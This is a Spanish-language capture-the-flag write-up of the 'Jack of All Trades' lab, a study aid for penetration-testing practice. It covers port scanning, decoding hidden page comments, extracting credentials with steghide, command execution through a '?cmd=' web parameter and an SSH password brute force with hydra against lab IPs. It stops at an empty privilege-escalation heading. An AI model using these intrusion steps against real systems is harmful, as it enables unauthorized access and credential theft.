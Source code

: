 # Jack of All Trades
## Initial Scan
```
22/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Jack-of-all-trades!
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
80/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 13:b7:f0:a1:14:e2:d3:25:40:ff:4b:94:60:c5:00:3d (DSA)
|   2048 91:0c:d6:43:d9:40:c3:88:b1:be:35:0b:bc:b9:90:88 (RSA)
|   256 a3:fb:09:fb:50:80:71:8f:93:1f:8d:43:97:1e:dc:ab (ECDSA)
|_  256 65:21:e7:4e:7c:5a:e7:bc:c6:ff:68:ca:f1:cb:75:e3 (ED25519)

```
## Enum
### HTTP
El hecho de que el HTTP este en el puerto 22 complica algunas cosas, pero nada que no podamos solucionar con cURL
En la pagina principal
```
<p>Please bear with me; I'm old, and at times I can be very forgetful. If you employ me you might find random notes lying around as reminders, but don't worry, I <em>always</em> clear up after myself.</p>
			<p>I love dinosaurs. I have a <em>huge</em> collection of models. Like this one:</p>
			<img src="assets/stego.jpg">
			<p>I make a lot of models myself, but I also do toys, like this one:</p>
			<img src="assets/jackinthebox.jpg">
			<!--Note to self - If I ever get locked out I can get back in at /recovery.php! -->
			<!--  UmVtZW1iZXIgdG8gd2lzaCBKb2hueSBHcmF2ZXMgd2VsbCB3aXRoIGhpcyBjcnlwdG8gam9iaHVudGluZyEgSGlzIGVuY29kaW5nIHN5c3RlbXMgYXJlIGFtYXppbmchIEFsc28gZ290dGEgcmVtZW1iZXIgeW91ciBwYXNzd29yZDogdT9XdEtTcmFxCg== -->
```
Si decodificamos el string con base64 vemos lo siguiente
```
Remember to wish Johny Graves well with his crypto jobhunting! His encoding systems are amazing! Also gotta remember your password: u?WtKSraq
```
Obtengamos el archivo llamdo stego y busquemos esteganografia en el, vemos los strings caracteristicos de steghide, si probanos la contraseña obtenida antes sacaremos un archivo llamado creds.txt, en el pone lo siguiente
```
Hehe. Gotcha!

You're on the right path, but wrong image!
```
Descargamos la otra imagen, en esa no se ha usado steghide, veamos en /recovery.php

#### Recovery.php
En el fuente tenemos lo siguiente
```
		<!-- GQ2TOMRXME3TEN3BGZTDOMRWGUZDANRXG42TMZJWG4ZDANRXG42TOMRSGA3TANRVG4ZDOMJXGI3DCNRXG43DMZJXHE3DMMRQGY3TMMRSGA3DONZVG4ZDEMBWGU3TENZQGYZDMOJXGI3DKNTDGIYDOOJWGI3TINZWGYYTEMBWMU3DKNZSGIYDONJXGY3TCNZRG4ZDMMJSGA3DENRRGIYDMNZXGU3TEMRQG42TMMRXME3TENRTGZSTONBXGIZDCMRQGU3DEMBXHA3DCNRSGZQTEMBXGU3DENTBGIYDOMZWGI3DKNZUG4ZDMNZXGM3DQNZZGIYDMYZWGI3DQMRQGZSTMNJXGIZGGMRQGY3DMMRSGA3TKNZSGY2TOMRSG43DMMRQGZSTEMBXGU3TMNRRGY3TGYJSGA3GMNZWGY3TEZJXHE3GGMTGGMZDINZWHE2GGNBUGMZDINQ=  -->
```
Si le aplicamos b32, hex to ascii y rot13 obtenemos el siguiente string
```
Remember that the credentials to the recovery login are hidden on the homepage! I know how forgetful you are, so here's a hint: bit.ly/2TvYQ2S
```
El link nos lleva a 
```
https://en.wikipedia.org/wiki/Stegosauria
```
Parece que me habia adelantado, volvemos a dondde estabamos antes

#### assets
En /assets/ hay 3 imagenes 2 de ellas ya las habiamos analizado , vayamos a por la tercera, en esta al usar steghide con la misma contraseña de antes y obtenemos un archivo llamdo cms.creds 

```
Here you go Jack. Good thing you thought ahead!

Username: jackinthebox
Password: <Redacted>
```
Parece que no son para el ssh si no para el login en la web, sera mas comodo finalmente hacerlo desde un navegador, para ello en mi caso uso chromiun ya que mi version de firefox no permite modificar los allowed ports
```
chromium-browser --explicitly-allowed-ports=22
```
Entramos y nos logeamos en recovery.php tras esto se nos redirige a la siguiente pagina
```
http://10.10.119.190:22/nnxhweOV/index.php
```
Es cuestion de añadir un 
```
?cmd=
```
y ya tenemos un RCE , parece que no puedo obtener una rev shell con los metodos normales,pero listando los directorios en /home encontramos un archivo llamado jack_pass.lst, tiramos de hydra 
```
hydra -l jack -P jack_pass.lst ssh://10.10.68.189:80/
[80][ssh] host: 10.10.68.189   login: jack   password: IT*************@
```

Con el siguiente mensaje
```
GET me a 'cmd' and I'll run it for you Future-Jack.
```
## Privesc
